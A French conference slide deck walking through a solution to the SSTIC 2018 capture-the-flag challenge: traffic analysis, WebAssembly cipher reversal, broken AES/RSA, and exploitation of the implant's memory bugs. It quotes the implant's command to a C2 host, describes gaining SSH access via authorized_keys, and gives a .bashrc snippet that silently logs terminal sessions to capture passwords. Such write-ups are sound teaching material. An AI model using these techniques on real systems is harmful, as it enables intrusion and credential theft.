






=====================
Solution du challenge
=====================

:author: Nicolas Iooss
:date: Jeudi 14 juin 2018

De la crypto (web)
~~~~~~~~~~~~~~~~~~

Ça commence bien...
===================

.. role:: latex(raw)
   :format: latex

Mail reçu le samedi 31 mars :

.. code-block:: xorg

    Bonjour,

    Nous avons récemment découvert une activité suspecte sur
    notre réseau. Heureusement pour nous, notre fine équipe
    responsable de la sécurité a rapidement mis fin à la menace
    en éteignant immédiatement la machine.
    [...]
    Malheureusement, nous avons été contraints par l'ANSSI
    d'enquêter sur cette intrusion inopinée.

* Pas d'image du système compromis
* Pas de logiciel malveillant (ou d'indicateur de compromission)
* Entreprise sous la contrainte

Trace réseau, raconte-moi une histoire !
========================================

Seul élément : trace réseau (Pcap)

Beaucoup de trafic HTTP (web).

Le requin du fil
================

:latex:`\begin{center}`

:latex:`\end{center}`

Le requin du fil
================

Trafic suspect :

* ``10.241.20.18:8080`` : Code JavaScript (payload, stage1, stage2, etc.)
* ``10.141.20.18:8080`` : Code WebAssembly ``blockcipher.wasm``
* ``https://10.241.20.18:1443/password?session=...``

:latex:`\pause`

.. raw:: latex

    \begin{columns}
      \begin{column}{0.75\textwidth}
        Sujet du certificat HTTPS (autosigné) :
        \begin{itemize}
        \tightlist
        \item
          \texttt{C\ =\ RU} : « Russie »
        \item
          \texttt{ST\ =\ Moscow} : « Moscou »
        \item
          \texttt{O\ =\ APT28} : « organisation : APT28 (Fancy Bear) »
        \item
          \texttt{CN\ =\ legit-news.ru} : « nouvelles \emph{légitimes} de la
          Russie »
        \end{itemize}
      \end{column}
      \begin{column}{0.20\textwidth}
        \includegraphics[width=\textwidth]{fancy-bear.png} \\
        \small{\centering\emph{Source : www.threatconnect.com}}
      \end{column}
    \end{columns}

:latex:`\pause`

Scripts : exploit navigateur, télécharge un mot de passe, :latex:`\\` déchiffre la charge dans ``/tmp/.f4ncyn0un0urs``.

L'assembleur du web
===================

Trois fonctions utilisées dans ``blockcipher.wasm`` (analyse avec WABT:latex:`\footnote{https://github.com/WebAssembly/wabt}`) :

* ``_getFlag`` : déchiffrement Speck (NSA), première validation intermédiaire
* ``_setDecryptKey`` : clé :latex:`\texttt{PBKDF2(mot de passe, sel, $10^6$ SHA-256)}`
* ``_decryptBlock`` : pour déchiffrer la charge, mode CBC

:latex:`\pause`

* Chiffrement par blocs de 16 octets (128 bits)
* Vérification par premier bloc : ``-Fancy Nounours-``
* Dérivation de la clé en 10 sous-clés
* Déchiffrement avec :
  - fonction linéaire :latex:`$P$` (polynôme de Kuznyechik, russe)
  - fonction de substitution par octet :latex:`$S$`
  - fonction de déobfuscation :latex:`$D$`

Une substitution tirée aléatoirement ?
======================================

.. raw:: latex

    {
        \renewcommand{\arraystretch}{0.8}
        \begin{tabular}{r|cccccccccccccccc|}
            $S$ & \texttt{\small{0}} & \texttt{\small{1}} & \texttt{\small{2}} & \texttt{\small{3}} & \texttt{\small{4}} & \texttt{\small{5}} & \texttt{\small{6}} & \texttt{\small{7}} & \texttt{\small{8}} & \texttt{\small{9}} & \texttt{\small{A}} & \texttt{\small{B}} & \texttt{\small{C}} & \texttt{\small{D}} & \texttt{\small{E}} & \texttt{\small{F}} \\
            \hline
            \texttt{\small{00}} & \texttt{\small{dc}} & \texttt{\small{63}} & \texttt{\small{7a}} & \texttt{\small{21}} & \texttt{\small{58}} & \texttt{\small{1f}} & \texttt{\small{76}} & \texttt{\small{5d}} & \texttt{\small{d4}} & \texttt{\small{db}} & \texttt{\small{72}} & \texttt{\small{99}} & \texttt{\small{50}} & \texttt{\small{97}} & \texttt{\small{6e}} & \texttt{\small{d5}} \\
            \texttt{\small{10}} & \texttt{\small{cc}} & \texttt{\small{53}} & \texttt{\small{6a}} & \texttt{\small{11}} & \texttt{\small{48}} & \texttt{\small{0f}} & \texttt{\small{66}} & \texttt{\small{4d}} & \texttt{\small{c4}} & \texttt{\small{cb}} & \texttt{\small{62}} & \texttt{\small{89}} & \texttt{\small{40}} & \texttt{\small{87}} & \texttt{\small{5e}} & \texttt{\small{c5}} \\
            \texttt{\small{20}} & \texttt{\small{bc}} & \texttt{\small{43}} & \texttt{\small{5a}} & \texttt{\small{01}} & \texttt{\small{38}} & \texttt{\small{ff}} & \texttt{\small{56}} & \texttt{\small{3d}} & \texttt{\small{b4}} & \texttt{\small{bb}} & \texttt{\small{52}} & \texttt{\small{79}} & \texttt{\small{30}} & \texttt{\small{77}} & \texttt{\small{4e}} & \texttt{\small{b5}} \\
            \texttt{\small{30}} & \texttt{\small{ac}} & \texttt{\small{33}} & \texttt{\small{4a}} & \texttt{\small{f1}} & \texttt{\small{28}} & \texttt{\small{ef}} & \texttt{\small{46}} & \texttt{\small{2d}} & \texttt{\small{a4}} & \texttt{\small{ab}} & \texttt{\small{42}} & \texttt{\small{69}} & \texttt{\small{20}} & \texttt{\small{67}} & \texttt{\small{3e}} & \texttt{\small{a5}} \\
            \texttt{\small{40}} & \texttt{\small{9c}} & \texttt{\small{23}} & \texttt{\small{3a}} & \texttt{\small{e1}} & \texttt{\small{18}} & \texttt{\small{df}} & \texttt{\small{36}} & \texttt{\small{1d}} & \texttt{\small{94}} & \texttt{\small{9b}} & \texttt{\small{32}} & \texttt{\small{59}} & \texttt{\small{10}} & \texttt{\small{57}} & \texttt{\small{2e}} & \texttt{\small{95}} \\
            \texttt{\small{50}} & \texttt{\small{8c}} & \texttt{\small{13}} & \texttt{\small{2a}} & \texttt{\small{d1}} & \texttt{\small{08}} & \texttt{\small{cf}} & \texttt{\small{26}} & \texttt{\small{0d}} & \texttt{\small{84}} & \texttt{\small{8b}} & \texttt{\small{22}} & \texttt{\small{49}} & \texttt{\small{00}} & \texttt{\small{47}} & \texttt{\small{1e}} & \texttt{\small{85}} \\
            \texttt{\small{60}} & \texttt{\small{7c}} & \texttt{\small{03}} & \texttt{\small{1a}} & \texttt{\small{c1}} & \texttt{\small{f8}} & \texttt{\small{bf}} & \texttt{\small{16}} & \texttt{\small{fd}} & \texttt{\small{74}} & \texttt{\small{7b}} & \texttt{\small{12}} & \texttt{\small{39}} & \texttt{\small{f0}} & \texttt{\small{37}} & \texttt{\small{0e}} & \texttt{\small{75}} \\
            \texttt{\small{70}} & \texttt{\small{6c}} & \texttt{\small{f3}} & \texttt{\small{0a}} & \texttt{\small{b1}} & \texttt{\small{e8}} & \texttt{\small{af}} & \texttt{\small{06}} & \texttt{\small{ed}} & \texttt{\small{64}} & \texttt{\small{6b}} & \texttt{\small{02}} & \texttt{\small{29}} & \texttt{\small{e0}} & \texttt{\small{27}} & \texttt{\small{fe}} & \texttt{\small{65}} \\
            \texttt{\small{80}} & \texttt{\small{5c}} & \texttt{\small{e3}} & \texttt{\small{fa}} & \texttt{\small{a1}} & \texttt{\small{d8}} & \texttt{\small{9f}} & \texttt{\small{f6}} & \texttt{\small{dd}} & \texttt{\small{54}} & \texttt{\small{5b}} & \texttt{\small{f2}} & \texttt{\small{19}} & \texttt{\small{d0}} & \texttt{\small{17}} & \texttt{\small{ee}} & \texttt{\small{55}} \\
            \texttt{\small{90}} & \texttt{\small{4c}} & \texttt{\small{d3}} & \texttt{\small{ea}} & \texttt{\small{91}} & \texttt{\small{c8}} & \texttt{\small{8f}} & \texttt{\small{e6}} & \texttt{\small{cd}} & \texttt{\small{44}} & \texttt{\small{4b}} & \texttt{\small{e2}} & \texttt{\small{09}} & \texttt{\small{c0}} & \texttt{\small{07}} & \texttt{\small{de}} & \texttt{\small{45}} \\
            \texttt{\small{A0}} & \texttt{\small{3c}} & \texttt{\small{c3}} & \texttt{\small{da}} & \texttt{\small{81}} & \texttt{\small{b8}} & \texttt{\small{7f}} & \texttt{\small{d6}} & \texttt{\small{bd}} & \texttt{\small{34}} & \texttt{\small{3b}} & \texttt{\small{d2}} & \texttt{\small{f9}} & \texttt{\small{b0}} & \texttt{\small{f7}} & \texttt{\small{ce}} & \texttt{\small{35}} \\
            \texttt{\small{B0}} & \texttt{\small{2c}} & \texttt{\small{b3}} & \texttt{\small{ca}} & \texttt{\small{71}} & \texttt{\small{a8}} & \texttt{\small{6f}} & \texttt{\small{c6}} & \texttt{\small{ad}} & \texttt{\small{24}} & \texttt{\small{2b}} & \texttt{\small{c2}} & \texttt{\small{e9}} & \texttt{\small{a0}} & \texttt{\small{e7}} & \texttt{\small{be}} & \texttt{\small{25}} \\
            \texttt{\small{C0}} & \texttt{\small{1c}} & \texttt{\small{a3}} & \texttt{\small{ba}} & \texttt{\small{61}} & \texttt{\small{98}} & \texttt{\small{5f}} & \texttt{\small{b6}} & \texttt{\small{9d}} & \texttt{\small{14}} & \texttt{\small{1b}} & \texttt{\small{b2}} & \texttt{\small{d9}} & \texttt{\small{90}} & \texttt{\small{d7}} & \texttt{\small{ae}} & \texttt{\small{15}} \\
            \texttt{\small{D0}} & \texttt{\small{0c}} & \texttt{\small{93}} & \texttt{\small{aa}} & \texttt{\small{51}} & \texttt{\small{88}} & \texttt{\small{4f}} & \texttt{\small{a6}} & \texttt{\small{8d}} & \texttt{\small{04}} & \texttt{\small{0b}} & \texttt{\small{a2}} & \texttt{\small{c9}} & \texttt{\small{80}} & \texttt{\small{c7}} & \texttt{\small{9e}} & \texttt{\small{05}} \\
            \texttt{\small{E0}} & \texttt{\small{fc}} & \texttt{\small{83}} & \texttt{\small{9a}} & \texttt{\small{41}} & \texttt{\small{78}} & \texttt{\small{3f}} & \texttt{\small{96}} & \texttt{\small{7d}} & \texttt{\small{f4}} & \texttt{\small{fb}} & \texttt{\small{92}} & \texttt{\small{b9}} & \texttt{\small{70}} & \texttt{\small{b7}} & \texttt{\small{8e}} & \texttt{\small{f5}} \\
            \texttt{\small{F0}} & \texttt{\small{ec}} & \texttt{\small{73}} & \texttt{\small{8a}} & \texttt{\small{31}} & \texttt{\small{68}} & \texttt{\small{2f}} & \texttt{\small{86}} & \texttt{\small{6d}} & \texttt{\small{e4}} & \texttt{\small{eb}} & \texttt{\small{82}} & \texttt{\small{a9}} & \texttt{\small{60}} & \texttt{\small{a7}} & \texttt{\small{7e}} & \texttt{\small{e5}} \\
            \hline
        \end{tabular}
    }

Un peu de maths
===============

.. raw:: latex

    \begin{eqnarray*}
      \mbox{\_setDecryptKey}(K) &\rightarrow& (X_0, Y_0, X_8, Y_8, X_{16}, Y_{16}, X_{24}, Y_{24}, X_{32}, Y_{32}) \\
      \mbox{\_decryptBlock}(B) &=& S(X_0 \oplus D(S(P^{-1}( ... \oplus D(S(P^{-1}(X_{32} \oplus D(S(P^{-1}(Y_{32} \oplus B))) ))) ... ))) )
    \end{eqnarray*}

Or

.. raw:: latex

    \begin{eqnarray*}
      D \circ S = id
    \end{eqnarray*}

:latex:`\pause`

Donc

.. raw:: latex

    \begin{eqnarray*}
      \mbox{\_decryptBlock}(B) &=& S(C_K \oplus (P^{-1})^9(B))
    \end{eqnarray*}

Un ourson fantaisiste très symbolique
=====================================

.. code-block:: sh

    $ file .f4ncyn0un0urs
    .f4ncyn0un0urs: ELF 64-bit LSB executable, x86-64, ...
    not stripped

    $ strings .f4ncyn0un0urs| grep SSTIC
    SSTIC2018{f2ff2a7ed70d4ab72c52948be06fee20}

2:sup:`e` validation intermédiaire

Encore de la crypto (logiciel)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Où est l'attaquant ?
====================

::

    stage1.js :

        /tmp/.f4ncyn0un0urs -h 192.168.23.213 -p 31337

Chiffrement RSA-2048 + AES128-CBC

:latex:`\pause`

:latex:`\centering\Large{Où est l'arnaque ?}`

Chiffrement quasiment à l'état de l'art
=======================================

AES :latex:`\sout{10}` **4** tours et IV incrémental pour chaque message

:latex:`$\Rightarrow$` « Attaque intégrale »:latex:`\footnote{Square attack}`

:latex:`\pause`

Génération des clés RSA :

.. raw:: latex

    \begin{eqnarray*}
        p &=& {\color{green!40!black}k} \times M + ({\color{red!70!black}g}^{\color{green!40!black}a} \mbox{ mod } M) \\
        & & {\color{green!40!black}k}, {\color{green!40!black}a} : \mbox{aléatoires} \\
        & & M, {\color{red!70!black}g} = \mbox{constantes}
    \end{eqnarray*}

:latex:`$\Rightarrow$` Comme ROCA, factorisation en quelques secondes

Communication de l'ourson fantaisiste
=====================================

.. raw:: latex

    \begin{figure}[htbp]
        \centering
        \input{image_01_timeline_agent.tikz.tex}
    \end{figure}

So much data!
=============

Récupération de ``/home/user/confidentiel/super_secret`` (3:sup:`e` validation)

Dépôt de 27 images de chien-homard :

:latex:`\begin{center}`

:latex:`\end{center}`

Contre-attaque
~~~~~~~~~~~~~~

Protocole
=========

``/tmp/.f4ncyn0un0urs`` peut agir comme un serveur racine.

:latex:`\pause`

Le serveur racine accepte :

* une réponse à une commande ;
* une requête ``PING`` ;
* use requête ``PEER``.

:latex:`\pause`

3 possibilités, 3 vulnérabilités.

Vulnérabilité 1 : il ne peut pas me faire taire
===============================================

.. raw:: latex

    \begin{tikzpicture}[remember picture,overlay]
        \node [xshift=-0.15cm,yshift=-0.15cm] at (current page.north east) [below left,text width=6.5cm]
            {\includegraphics[width=6cm]{chat-russe_micetto.com.jpg} \small{\centering\emph{Source : www.micetto.com}}};
    \end{tikzpicture}

Un peu de politesse ne peut pas faire de mal ::

    $ ipython -i mon_agent.py
    ...
    [DEBUG] Recv(0x0->0x1245780345567817 cmd 0x201 [3] b'id\x00')

    >>> c.reply_cmd(b'coucou ! Quelle est ton adresse e-mail ?\n')

    >>> c.reply_cmd(b'pour repondre, envoie une commande vers
                      0x1245780345567817 ;)\n')

    >>> c.recv_encrypted()

Vulnérabilité 2 : un tintement qui saigne
=========================================

.. code-block:: c

    int scomm_recv(void *buffer) {
        /* ... */
        memcpy(buffer, cleartext, received_size);
        /* ... */
    }

Récupération par ``PING`` de l'adresse de la pile.

Vulnérabilité 3 : un routage peu stable
=======================================

13 sous-clients::

    realloc(): invalid next size
    Bad system call (core dumped)

Trace::

    #5 0x0000000000429012 in realloc ()
    #6 0x000000000040183b in add_to_route ()
    #7 0x00000000004015a3 in mesh_process_agent_peering ()
    #8 0x0000000000401cbe in mesh_process_message ()
    #9 0x00000000004011aa in agent_main_loop ()
    #10 0x0000000000400672 in main ()

Du crash à l'écriture
=====================

* Dépassement de 8 octets
* Allocateur glibc 2.27 (février 2018, avec *tcache*, *asserts*, etc.)
* Actions limitées

Du crash à l'écriture : ça commence par du papier A4
====================================================

:latex:`\begin{center}`

:latex:`\end{center}`

Du crash à l'écriture : papier quadrillé
========================================

:latex:`\begin{center}`

:latex:`\end{center}`

Du crash à l'écriture : papier quadrillé
========================================

:latex:`\begin{center}`

:latex:`\end{center}`

Du crash à l'écriture : papier quadrillé
========================================

:latex:`\begin{center}`

:latex:`\end{center}`

Du crash à l'écriture : tant de papiers !
=========================================

:latex:`\begin{center}\vskip -2.5cm`

:latex:`\end{center}`

Au bout de 3 jours et de 3 nuits...
===================================

Le vendredi 6 avril matin :

* 02h45 : première écriture arbitraire réussie (en environnement de test)
* 03h22 : première exécution (ROP)
* 04h15 : ``ls`` et ``cat`` réimplémentés
* 04h25 : ``cat secret/sstic2018.flag`` ::

    65r1o0q138...qqr0p5507o@punyyratr.ffgvp.bet

* 04h27 : envoi du mail de dissuasion, comme demandé

:latex:`\pause`

Quelles sont les autres victimes de l'attaquant ?

Peut-on obtenir un shell ?

Quand y'en a plus, y'en a encore !
==================================

Pas de ``execve(/bin/sh)`` car SECCOMP. Mais ``open`` et ``write``...

:latex:`\pause`

... et ``.ssh/authorized_keys`` inscriptible !

Quand y'en a plus, y'en a encore !
==================================

.. code-block:: sh

    $ ssh -i id_rsa_sstic sstic@195.154.105.12
    sstic@sd-133901:~$  uname -a
    Linux sd-133901 4.9.0-4-grsec-amd64 #1 SMP
    Debian 4.9.65-2+grsecunoff1~bpo9+1
    sstic@sd-133901:~$  ps -efH
    UID     PID  PPID  C STIME TTY          TIME CMD
    sstic 25160 25154  0 20:10 ?        00:00:00 sshd: sstic@pts/0
    sstic 25161 25160  0 20:10 pts/0    00:00:00   -bash
    sstic 25180 25161  0 20:11 pts/0    00:00:00     ps -efHZ
    sstic 29810     1  0 Mar29 ?        00:00:01 SCREEN
    sstic 29811 29810  0 Mar29 pts/3    00:00:00   /bin/bash
    sstic 25153 29811  1 20:09 pts/3    00:00:01     /home/sstic/agent -c SSTIC...
    sstic 29027     1  0 Mar29 ?        00:00:00 /lib/systemd/systemd --user
    sstic 29028 29027  0 Mar29 ?        00:00:00   (sd-pam)

Conclusion
~~~~~~~~~~

Conclusion
==========

Bon challenge :

* Pleeeeeeeein de crypto
* Exploitation intéressante ``:)``
* Découverte de WebAssembly

Questions ouvertes :

* Quel est le mot de passe ``root`` ?
* Pourquoi le serveur racine n'est pas exécuté en ``nobody`` ?

Questions
=========

:latex:`\centering\Huge{?}`

Annexes
=======

Annexe : comment obtenir le mot de passe root ?
===============================================

.. code-block:: sh

    $ cat >> .bashrc

    if [ -z "${S:-}" ] && [ -t 0 ] ; then
        export S=true
        stty raw && stty -echo
        tee -a /tmp/.session | script -qe /dev/null
        exit $?
    fi
